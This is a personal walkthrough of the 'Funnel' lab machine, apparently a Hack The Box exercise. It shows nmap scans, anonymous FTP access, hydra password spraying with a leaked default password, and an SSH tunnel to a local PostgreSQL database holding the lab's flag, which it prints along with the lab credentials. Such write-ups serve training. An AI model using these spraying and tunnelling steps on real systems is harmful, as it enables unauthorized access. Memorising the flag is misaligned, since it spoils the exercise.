 # Funnel

> 10.129.228.195

## Nmap
```
nmap 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:33 EDT
Nmap scan report for 10.129.228.195
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
```
```
nmap -sS -sV -sC -O -p 21,22 -T4 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:35 EDT
Nmap scan report for 10.129.228.195
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

## FTP Enumeration
```
nmap --script ftp-anon -p 21 10.129.228.195
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-13 19:37 EDT
Nmap scan report for 10.129.228.195
Host is up (0.040s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup

Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
```
## FTP Login
1. Logged in as `anonymous` (no password/null password)
2. Did a `pwd` and was in a root directory for ftp (not the actual root)
3. Did an `ls` and saw there was one subdir: `mail_backup`
4. `cd` into the subdir and an `ls` revealed two files that I downloaded:

```
ftp> ls
229 Entering Extended Passive Mode (|||6644|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
-rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
226 Directory send OK.

ftp> get password_policy.pdf
local: password_policy.pdf remote: password_policy.pdf
229 Entering Extended Passive Mode (|||38072|)
150 Opening BINARY mode data connection for password_policy.pdf (58899 bytes).
100% |**************************************************************************************************************| 58899      695.91 KiB/s    00:00 ETA
226 Transfer complete.
58899 bytes received in 00:00 (474.45 KiB/s)

ftp> get welcome_28112022
local: welcome_28112022 remote: welcome_28112022
229 Entering Extended Passive Mode (|||56481|)
150 Opening BINARY mode data connection for welcome_28112022 (713 bytes).
100% |**************************************************************************************************************|   713       13.87 MiB/s    00:00 ETA
226 Transfer complete.
713 bytes received in 00:00 (34.43 KiB/s)
```

## password_policy.pdf
- Doc says: "...the default password of “funnel123#!#” must be changed immediately."
- The `welcome` file is the same as the `password` file.

## Users
- Need for find a list of users on the target to try the password.
- Or... password spraying: "Password spraying is a type of brute force attack which involves a malicious actor attempting to use the same password on multiple accounts before moving on to try another one."

```
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p 'funnel123#!#' 10.129.228.195 ftp                                     
[21][ftp] host: 10.129.228.195   login: ftp   password: funnel123#!#
1 of 1 target successfully completed, 1 valid password found
```

- Logged in with that user and didn't get anywhere. Used a different username list.
- Ran `hydra` and it crashed the target. Had to reset and tweak the timing (`-t`) of `hydra`.

> reset: 10.129.34.254

```
hydra -L /usr/share/wordlists/rockyou.txt -p 'funnel123#!#' 10.129.34.254 ftp -I -t 3
[21][ftp] host: 10.129.34.254   login: christine   password: funnel123#!#
```

## SSH
- used the creds `christine:funnel123#!#` to login via ssh.
- I could login but that didn't get me anywhere

## Enumeration
> This is from the walkthrough doc
- From this point on, we have complete access as the christine user on the target machine, and can start enumerating it for potential files or services that we can explore further.
- A crucial command at this point in time is the `ss` command ([reference](../../04_Enumeration/enum_sockets.md)), which stands for `socket statistics`, and it can be used to check which ports are listening locally on a given machine.
```
ss -tln
# -l: Display only listening sockets.
# -t: Display TCP sockets.
# -n: Do not try to resolve service names.
```
- If there are ports listening on the system, they will be listed by `ss`.
- In our scenario, one of the results was: `127.0.0.1:5432`.

### Problem
- If you login via ssh as `christine` and try to run `psql` (the command line tool used for interacting with a PostgreSQL database), you'll get the message that `psql` has not been installed.
- The solution is to use `psql` on my local machine and tunnel commands through ssh to the remote target.
- And that's what follows...

## PostgreSQL
- TCP port is open 5432 but only locally on the target (not visible from an external scan).
- That port is used by PostgreSQL and it only listens only on localhost so if you want to connect remotely, you have to use ssh...
- Since you can't access PostgreSQL from the local machine, you will have to create a tunnel with local port forwarding
- Ref: https://www.postgresql.org/docs/current/ssh-tunnels.html

### SSH Tunneling to PostgreSQL
- Following the reference link above, I did: 
```
ssh -L 63333:localhost:5432 christine@10.129.34.254
psql -h localhost -p 63333 --username=christine postgres

# Result: postgres prompt...

postgres=# 
postgres-# \?     # for help
postgres-# \l     # list all databases
                                                        List of databases                                                                                   
   Name    |   Owner   | Encoding | Locale Provider |  Collate   |   Ctype    | ICU Locale | ICU Rules |    Access privileges                               
-----------+-----------+----------+-----------------+------------+------------+------------+-----------+-------------------------                           
 christine | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 postgres  | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 secrets   | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           |                                                    
 template0 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/christine           +                           
           |           |          |                 |            |            |            |           | christine=CTc/christine                            
 template1 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/christine           +                           
           |           |          |                 |            |            |            |           | christine=CTc/christine                            
(5 rows)  

postgres-# \c secrets      # connect to database
psql (16.2 (Debian 16.2-1), server 15.1 (Debian 15.1-1.pgdg110+1))                                                                                          
You are now connected to database "secrets" as user "christine". 

secrets-# \dt               # list all database tables
 public | flag | table | christine

secrets=# SELECT * FROM flag;
 cf277664b1771217d7006acdea006db1

```

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/f3392c77-027b-497e-abd6-4b6218651a92)

